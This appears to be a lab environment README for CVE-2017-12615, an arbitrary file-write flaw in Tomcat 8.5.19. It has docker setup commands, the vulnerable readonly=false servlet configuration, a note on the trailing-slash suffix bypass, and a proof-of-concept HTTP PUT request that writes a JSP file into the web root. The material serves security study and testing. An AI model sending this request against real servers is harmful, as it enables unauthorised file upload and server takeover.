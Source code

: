 # Tomcat Arbitrary Write-file Vulnerability through PUT Method (CVE-2017-12615)

[中文版本(Chinese version)](README.zh-cn.md)

Tomcat version: 8.5.19

## Environment Setup

```
docker compose build
docker compose up -d
```

After successfully running the commands above, you will see the example page of Tomcat through visiting the site `http://your-ip:8080`.

## Rationale

Reference links:

- http://wooyun.jozxing.cc/static/bugs/wooyun-2015-0107097.html
- https://mp.weixin.qq.com/s?__biz=MzI1NDg4MTIxMw==&mid=2247483659&idx=1&sn=c23b3a3b3b43d70999bdbe644e79f7e5
- https://mp.weixin.qq.com/s?__biz=MzU3ODAyMjg4OQ==&mid=2247483805&idx=1&sn=503a3e29165d57d3c20ced671761bb5e

Tomcat sets up the write permission（readonly=false）, which leads to the result that we can write files into the server.

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Although Tomcat checks the file suffix to some extent(can't write jsp directly), we can still bypass the limitation through some file system features(such as using `/` in Linux).

## POC

Send the following packets directly and then the shell will be written into the Web root directory.

```
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

shell
```

As follows:

![](01.png)